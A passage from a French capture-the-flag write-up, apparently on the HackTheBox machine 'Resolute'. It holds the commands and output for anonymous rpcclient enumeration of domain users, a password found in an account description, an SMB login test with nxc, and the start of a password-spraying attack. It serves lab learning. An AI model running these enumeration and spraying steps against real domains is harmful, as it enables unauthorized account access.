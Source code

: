 ```sh
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie      Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki        Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo        Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand     Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally        Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon        Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve        Name: (null)    Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie       Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)
```

Avec toutes ces informations, jarrive a trouver un mot de passe `Welcome123!` de l'utilisateur `marko`. Mais en l'essayant elle marche pas avec cet utilisateur

```sh
└─# nxc smb $ip -u 'marko' -p 'Welcome123!' --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
                                                
```

Alors quoi faire ? je vais enumerer toutes les utilisateurs du domaine et ensuite voir si ce mot de passe fonctionne avec un autre utilisateur grace au *PasswordSpraying*

```sh
└─# rpcclient -U '' -N 10.129.96.155 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'  | tr -d '[]' > res_user
Administrator
Guest
krbtgt
DefaultAccount
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```
